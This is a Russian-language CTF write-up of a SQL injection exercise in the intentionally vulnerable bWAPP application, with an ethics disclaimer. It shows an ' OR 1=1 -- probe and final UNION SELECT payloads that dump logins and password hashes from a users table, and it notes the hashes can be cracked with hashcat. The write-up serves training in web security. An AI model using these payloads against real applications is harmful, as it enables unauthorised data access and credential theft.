







# SQL Injection (GET/Search)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Веб-приложение Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Приложение
---



# Функциональность
---

Передача `test` для определения реакции приложения на записи, которых нет в базе данных:



Передача `Iron Man` для наблюдения реакции приложения на запись, которая (вероятно) есть в базе данных:



### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Эксплуатация
---

Передача запроса `' OR 1=1 -- ` для тестирования на уязвимость SQL-инъекции:



Приложение возвращает все записи из базы данных, уязвимость подтверждена.

Теперь передача нагрузки на основе `UNION` для попытки получения данных из (вероятно существующей) таблицы `users`:



Это доказывает, что таблица `users` существует. Операторы возвращают разное количество столбцов.

Передача полезной нагрузки `UNION` с измененными значениями `NULL` для получения записей таблицы `users`, с увеличением количества значений `NULL` до успешного выполнения запроса:



Хэшированные пароли, которые впоследствии можно взломать с помощью таких инструментов, как `hashcat`.



### Финальные пейлоады

Получение записей хэшированных паролей:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Получение записей логинов:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```